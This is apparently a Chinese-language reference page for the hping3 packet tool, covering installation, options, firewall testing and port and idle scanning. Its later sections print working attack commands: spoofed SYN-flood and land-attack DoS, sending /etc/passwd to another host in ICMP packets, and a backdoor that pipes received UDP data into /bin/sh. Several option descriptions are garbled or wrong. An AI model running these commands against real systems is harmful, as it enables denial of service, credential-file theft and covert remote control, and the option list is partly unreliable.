 hping3
===

测试网络及主机的安全

## 补充说明

**hping** 是用于生成和解析TCPIP协议数据包的开源工具。创作者是Salvatore Sanfilippo。目前最新版是hping3，支持使用tcl脚本自动化地调用其API。hping是安全审计、防火墙测试等工作的标配工具。hping优势在于能够定制数据包的各个部分，因此用户可以灵活对目标机进行细致地探测。

### 安装

```shell
yum install libpcap-devel tc-devel
ln -s /usr/include/pcap-bpf.h /usr/include/net/bpf.h
wget http://www.hping.org/hping3-20051105.tar.gz
tar zxvf hping3-20051105.tar.gz
cd hping3-20051105
./configure
make
make install
```

### 选项

```shell
-H --help 显示帮助。
-v -VERSION 版本信息。
-c --count count 发送数据包的次数 关于countreached_timeout 可以在hping2.h里编辑。
-i --interval 包发送间隔时间（单位是毫秒）缺省时间是1秒,此功能在增加传输率上很重要,在idle/spoofing扫描时此功能也会被用到,你可以参考hping-howto获得更多信息-fast 每秒发10个数据包。
-n -nmeric 数字输出，象征性输出主机地址。
-q -quiet 退出。
-I --interface interface name 无非就是eth0之类的参数。
-v --verbose 显示很多信息，TCP回应一般如：len=46 ip=192.168.1.1 flags=RADF seq=0 ttl=255 id=0 win=0 rtt=0.4ms tos=0 iplen=40 seq=0 ack=1380893504 sum=2010 urp=0
-D --debug 进入debug模式当你遇到麻烦时，比如用HPING遇到一些不合你习惯的时候，你可以用此模式修改HPING，（INTERFACE DETECTION,DATA LINK LAYER ACCESS,INTERFACE SETTINGS,.......）
-z --bind 快捷键的使用。
-Z --unbind 消除快捷键。
-O --rawip RAWIP模式，在此模式下HPING会发送带数据的IP头。
-1 --icmp ICMP模式，此模式下HPING会发送IGMP应答报，你可以用--ICMPTYPE --ICMPCODE选项发送其他类型/模式的ICMP报文。
-2 --udp UDP 模式，缺省下，HPING会发送UDP报文到主机的0端口，你可以用--baseport --destport --keep选项指定其模式。
-9 --listen signatuer hping的listen模式，用此模式，HPING会接收指定的数据。
-a --spoof hostname 伪造IP攻击，防火墙就不会记录你的真实IP了，当然回应的包你也接收不到了。
-t --ttl time to live 可以指定发出包的TTL值。
-H --ipproto 在RAW IP模式里选择IP协议。
-w --WINID UNIX ,WINDIWS的id回应不同的，这选项可以让你的ID回应和WINDOWS一样。
-r --rel 更改ID的，可以让ID曾递减输出，详见HPING-HOWTO。
-F --FRAG 更改包的FRAG，这可以测试对方对于包碎片的处理能力，缺省的“virtual mtu”是16字节。
-x --morefrag 此功能可以发送碎片使主机忙于恢复碎片而造成主机的拒绝服务。
-y -dontfrag 发送不可恢复的IP碎片，这可以让你了解更多的MTU PATH DISCOVERY。
-G --fragoff fragment offset value set the fragment offset
-m --mtu mtu value 用此项后ID数值变得很大，50000没指定此项时3000-20000左右。
-G --rroute 记录路由，可以看到详悉的数据等等，最多可以经过9个路由，即使主机屏蔽了ICMP报文。
-C --ICMPTYPE type 指定ICMP类型，缺省是ICMP echo REQUEST。
-K --ICMPCODE CODE 指定ICMP代号，缺省0。
--icmp-ipver 把IP版本也插入IP头。
--icmp-iphlen 设置IP头的长度，缺省为5（32字节）。
--icmp-iplen 设置IP包长度。
--icmp-ipid 设置ICMP报文IP头的ID，缺省是RANDOM。
--icmp-ipproto 设置协议的，缺省是TCP。
-icmp-cksum 设置校验和。
-icmp-ts alias for --icmptype 13 (to send ICMP timestamp requests)
--icmp-addr Alias for --icmptype 17 (to send ICMP address mask requests)
-s --baseport source port hping 用源端口猜测回应的包，它从一个基本端口计数，每收一个包，端口也加1，这规则你可以自己定义。
-p --deskport [+][+]desk port 设置目标端口，缺省为0，一个加号设置为:每发送一个请求包到达后，端口加1，两个加号为：每发一个包，端口数加1。
--keep 上面说过了。
-w --win 发的大小和windows一样大，64BYTE。
-O --tcpoff Set fake tcp data offset. Normal data offset is tcphdrlen / 4.
-m --tcpseq 设置TCP序列数。
-l --tcpck 设置TCP ack。
-Q --seqnum 搜集序列号的，这对于你分析TCP序列号有很大作用。
```

### Hping3功能

Hping3主要有以下典型功能应用：

####  防火墙测试

使用Hping3指定各种数据包字段，依次对防火墙进行详细测试。请参考：http://0daysecurity.com/articles/hping3_examples.html

测试防火墙对ICMP包的反应、是否支持traceroute、是否开放某个端口、对防火墙进行拒绝服务攻击（DoS attack）。例如，以LandAttack方式测试目标防火墙（Land Attack是将发送源地址设置为与目标地址相同，诱使目标机与自己不停地建立连接）。

```shell
hping3 -S  -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10
```

#### 端口扫描

Hping3也可以对目标端口进行扫描。Hping3支持指定TCP各个标志位、长度等信息。以下示例可用于探测目标机的80端口是否开放：

```shell
hping3 -I eth0  -S 192.168.10.1 -p 80
```

其中`-I eth0`指定使用eth0端口，`-S`指定TCP包的标志位SYN，`-p 80`指定探测的目的端口。

hping3支持非常丰富的端口探测方式，nmap拥有的扫描方式hping3几乎都支持（除开connect方式，因为Hping3仅发送与接收包，不会维护连接，所以不支持connect方式探测）。而且Hping3能够对发送的探测进行更加精细的控制，方便用户微调探测结果。当然，Hping3的端口扫描性能及综合处理能力，无法与Nmap相比。一般使用它仅对少量主机的少量端口进行扫描。

#### Idle扫描

Idle扫描（Idle Scanning）是一种匿名扫描远程主机的方式，该方式也是有Hping3的作者Salvatore Sanfilippo发明的，目前Idle扫描在Nmap中也有实现。

该扫描原理是：寻找一台idle主机（该主机没有任何的网络流量，并且IPID是逐个增长的），攻击端主机先向idle主机发送探测包，从回复包中获取其IPID。冒充idle主机的IP地址向远程主机的端口发送SYN包（此处假设为SYN包），此时如果远程主机的目的端口开放，那么会回复SYN/ACK，此时idle主机收到SYN/ACK后回复RST包。然后攻击端主机再向idle主机发送探测包，获取其IPID。那么对比两次的IPID值，我们就可以判断远程主机是否回复了数据包，从而间接地推测其端口状态。

#### 拒绝服务攻击

使用Hping3可以很方便构建拒绝服务攻击。比如对目标机发起大量SYN连接，伪造源地址为192.168.10.99，并使用1000微秒的间隔发送各个SYN包。

```shell
hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
```

其他攻击如smurf、teardrop、land attack等也很容易构建出来。

#### 文件传输

Hping3支持通过TCP/UDP/ICMP等包来进行文件传输。相当于借助TCP/UDP/ICMP包建立隐秘隧道通讯。实现方式是开启监听端口，对检测到的签名（签名为用户指定的字符串）的内容进行相应的解析。在接收端开启服务：

```shell
hping3 192.168.1.159--listen signature --safe  --icmp
```

监听ICMP包中的签名，根据签名解析出文件内容。

在发送端使用签名打包的ICMP包发送文件：

```shell
hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd
```

将`/etc/passwd`密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d 100），发送签名为signature(-sign signature)。

#### 木马功能

如果Hping3能够在远程主机上启动，那么可以作为木马程序启动监听端口，并在建立连接后打开shell通信。与netcat的后门功能类似。

示例：本地打开53号UDP端口（DNS解析服务）监听来自192.168.10.66主机的包含签名为signature的数据包，并将收到的数据调用/bin/sh执行。

在木马启动端：

```shell
hping3 192.168.10.66--listen signature --safe --udp -p 53 | /bin/sh
```

在远程控制端：

```shell
echo ls >test.cmd
hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --file ./test.cmd
```

将包含ls命令的文件加上签名signature发送到192.168.10.44主机的53号UDP端口，包数据长度为100字节。

当然这里只是简单的演示程序，真实的场景，控制端可以利益shell执行很多的高级复杂的操作。


<!-- Linux命令行搜索引擎：https://jaywcjlove.github.io/linux-command/ -->